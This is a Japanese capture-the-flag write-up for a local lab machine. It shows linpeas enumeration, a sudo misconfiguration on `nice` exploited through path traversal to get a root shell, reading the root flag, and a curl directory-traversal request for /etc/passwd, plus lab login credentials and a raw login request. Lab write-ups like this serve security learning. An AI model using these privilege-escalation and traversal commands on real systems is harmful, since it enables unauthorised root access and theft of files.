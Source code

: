 ### (おまけ)Linpeasを送って、実行してみる
- `sudo scp linpeas.sh webadmin@192.168.56.101:/tmp`
- `chmod +x linpeas.sh`
- `./linpeas.sh > /home/webadmin/linpeas.log`

### userのroot権限を調べる
- `sudo -l`
- niceコマンドが引数`/notes/*`ディレクトリにあるファイルは全てルート権限で実行できるので、このコマンドを使って/bin/bashを実行する。GTFOBinsにも書いてあるので調べる。
- `/notes`ディレクトリを調べる。２つのスクリプトがある、パーミッションを調べるが所有者がrootでrootでしか、読み書き、実行はできない。`sudo -l`でしか実行できないので当然だが、、、、、

### root権限の取得(その1)
- ルート権限での実行なので当然、頭にsudoをつける
- notesはルートディレクトリの直下にあるので、ディレクトリリバーサルを利用して/bin/bashを呼び出す
- `sudo /bin/nice /notes/../bin/bash` 

### root権限の取得(その2)
- その1とは、一度ファイルにbin/bashを書き込んでいるか否かの違いだけ
```sh
cd /tmp
echo "/bin/bash" > rootbash.sh
chmod +x rootbash.sh
sudo /bin/nice /notes/../tmp/rootbash.sh
```

### root権限
- `cd /root`
- `ls`
- `cat root.txt`　２つ目のflagを取得 

## (補足) curlでディレクトリトラバーサルをしてpasswdを見る
- `curl -X POST -b "pass=~" -d 'file=../../../../../etc/passwd' "http://192.168.56.101/admin/dashboard.php?.page=log"`
  - `-X` httpメソッドの指定
  - `-b` クッキーの指定
  - `-d` postリクエストのフォームを送信する

## 参考
- user:`ad min`
- Password:`pass''`
### Request(login)
```
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.56.101
Content-Length: 35
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.56.101/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Connection: close

username=ad+min&password=pass%27%27
```